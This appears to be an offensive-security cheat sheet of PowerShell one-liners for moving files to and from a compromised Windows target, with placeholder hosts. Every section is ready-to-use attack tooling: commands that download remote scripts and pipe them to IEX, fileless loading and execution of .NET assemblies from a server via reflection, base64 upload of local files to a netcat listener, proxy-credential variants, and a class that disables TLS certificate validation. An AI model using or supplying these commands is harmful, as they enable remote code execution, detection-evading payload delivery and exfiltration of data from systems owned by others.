 # pwsh

% powershell, download

#plateform/windows #target/remote #cat/UTILS/FILE_TRANSFERT #tag/powershell 


## file transfert - download on disk (csharp)
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<windows_writable_path>\<dest_file>')
```
## file transfert - proxied download on disk (csharp)
```powershell
$w=New-Object System.Net.WebClient; $w.Proxy=New-Object System.Net.WebProxy("http://<proxy_server>:<proxy_port>",$true); $w.proxy.Credentials = New-Object System.Net.NetworkCredential("<proxy_login>", "<proxy_password>"); $w.DownloadFile('http://<server>/<source_file>','<windows_writable_path>\<dest_file>')
```

## file transfert - download on disk (powershell)
```powershell
Invoke-WebRequest -URI http://<server>/<source_file> -Out <windows_writable_path>\<dest_file>
```

## file transfert - proxied download on disk (powershell)
```powershell
Invoke-WebRequest -URI http://<server>/<source_file> -Out <windows_writable_path>/<dest_file> -Proxy http://<proxy_server>:<proxy_port> -ProxyCredential (New-Object System.Management.Automation.PSCredential("<proxy_login>", (ConvertTo-SecureString '<proxy_password>' -Asplaintext -force)))
```

## file transfert - download and import script (csharp)
```powershell
(new-object system.net.webclient).downloadstring('http://<server>/<script>') | IEX
```

## file transfert - proxied download and import script (csharp)
```powershell
$w=New-Object System.Net.WebClient; $w.Proxy=New-Object System.Net.WebProxy("http://<proxy_server>:<proxy_port>",$true); $w.proxy.Credentials = New-Object System.Net.NetworkCredential("<proxy_login>", "<proxy_password>"); $w.downloadstring('http://<server>/<script>') | IEX
```

## file transfert - download and import script (powershell)
```powershell
Invoke-WebRequest -URI http://<server>/<script> | IEX
```

## file transfert - proxied download and import script (powershell)
```powershell
Invoke-WebRequest -URI http://<server>/<script> -Proxy http://<proxy_server>:<proxy_port> -ProxyCredential (New-Object System.Management.Automation.PSCredential("<proxy_login>", (ConvertTo-SecureString '<proxy_password>' -Asplaintext -force))) | IEX
```

## file transfert - download csharp into memory (Assembly reflection)
```powershell
$d = (New-Object System.Net.WebClient).DownloadData('http://<server>/<binary>'); $asm = [System.Reflection.Assembly]::Load($d); 
```

## file transfert - download gziped csharp into memory (Assembly reflection)
```powershell
$b64 = (New-Object System.Net.WebClient).DownloadData('http://<server>/<binary>');$c=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String($b64));$d = New-Object IO.Compression.GzipStream($c,[IO.Compression.CoMPressionMode]::DEComPress);$asm = [System.Reflection.Assembly]::Load($d); 
```

## file transfert - run csharp from memory (Assembly reflection) 
```powershell
$params="<asm_ref_params>".split(" ");$OldConsoleOut = [Console]::Out; $StringWriter = New-Object IO.StringWriter ; [Console]::SetOut($StringWriter) ; $asm.EntryPoint.Invoke($null, [Object[]] @(@(,($params))));[Console]::SetOut($OldConsoleOut); $Results = $StringWriter.ToString(); $Results
```
= asm_ref_params: -group=user -full

## file transfert - upload base64 (in-memory)
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<file>' -Encoding Byte));Invoke-RestMethod -Uri http://<server>/ -Method POST -Body $b64
```

## file transfert - upload base64 (file creation)
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
certutil -encode <infile> <outfile>; $base64str = Get-Content <outfile> && Invoke-RestMethod -Uri http://<server>/ -Method POST -Body $base64str
```


## file transfert - bypass certificat validation
```powershell
 add-type @"
    using System.Net;
    using System.Security.Cryptography.X509Certificates;
    public class TrustAllCertsPolicy : ICertificatePolicy {
        public bool CheckValidationResult(
            ServicePoint srvPoint, X509Certificate certificate,
            WebRequest request, int certificateProblem) {
            return true;
        }
    }
"@
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
```
